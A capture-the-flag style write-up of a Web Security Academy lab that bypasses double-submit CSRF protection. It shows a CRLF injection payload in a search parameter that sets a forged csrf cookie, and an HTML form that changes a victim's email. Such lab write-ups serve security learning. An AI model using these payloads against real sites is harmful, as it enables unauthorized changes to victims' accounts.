

---

# 🧪 Lab: CSRF Where Token Is Duplicated in Cookie

## 🎯 Objective

Bypass CSRF protection and change the victim’s email using a forged request.

---

## 🛠️ Approach (Manual — No Burp Suite Professional)

---

## 🔍 Step 1: Analyze CSRF Mechanism

Captured request:

```
POST /my-account/change-email HTTP/1.1
Host: target

Cookie: csrf=ABC123

email=test@email.com&csrf=ABC123
```

👉 Observation:

* CSRF token exists in:

  * Cookie (`csrf`)
  * Request body (`csrf`)

👉 Validation logic:

```
if (csrf_cookie == csrf_body) → accept
```

❌ No server-side validation
❌ No session binding

---

## 💡 Vulnerability Identified

👉 This is an insecure **Double Submit Cookie pattern**

* Server only checks equality
* Does NOT verify authenticity
* Attacker can control both values

---

## 🔥 Step 2: Find Cookie Injection Point

While testing search functionality:

```
/?search=test%0d%0aSet-Cookie: csrf=VALUE; SameSite=None
```

👉 Input is reflected into response headers
👉 Enables **CRLF injection → Set-Cookie injection**

---

## 💣 Step 3: Craft CSRF Exploit

Your manual payload:

```html
<!DOCTYPE html>
<html>
<body>
    <h1>Processing CSRF Attack...</h1>

    <form action="https://0a87006704a9a38c803e03740002008a.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="carlos@ginandjuice.shop">
        <input type="hidden" name="csrf" value="pwned123">
    </form>

    <!-- Inject fake csrf cookie and trigger request -->
    
</body>
</html>
```

---

## 🚀 Step 4: Exploit Flow

1. Victim loads malicious page
2. `` request triggers:

   * CRLF injection
   * Sets cookie:

     ```
     csrf=pwned123
     ```
3. Browser stores attacker-controlled cookie
4. Form auto-submits:

   * `csrf` body = `pwned123`
   * `csrf` cookie = `pwned123`

✅ Server compares values → match
✅ Request accepted
✅ Email changed

---

## ✅ Result

CSRF protection bypassed successfully
✔️ Lab solved

---

# 🧠 Why This Works

| Issue                 | Explanation              |
| --------------------- | ------------------------ |
| Double submit pattern | Only compares values     |
| No server validation  | Token not verified       |
| Cookie injection      | Attacker controls cookie |
| Result                | Full CSRF bypass         |

---

## 🏁 Final Professional Writeup

> The application implements CSRF protection using a double submit cookie pattern, where the CSRF token in the request body is compared with a cookie value. However, no server-side validation or session binding is performed. A CRLF injection vulnerability in the search functionality allows an attacker to inject a malicious `csrf` cookie into the victim’s browser. By setting both the cookie and request parameter to the same attacker-controlled value, the CSRF protection is bypassed, allowing unauthorized modification of the victim’s email address.

---

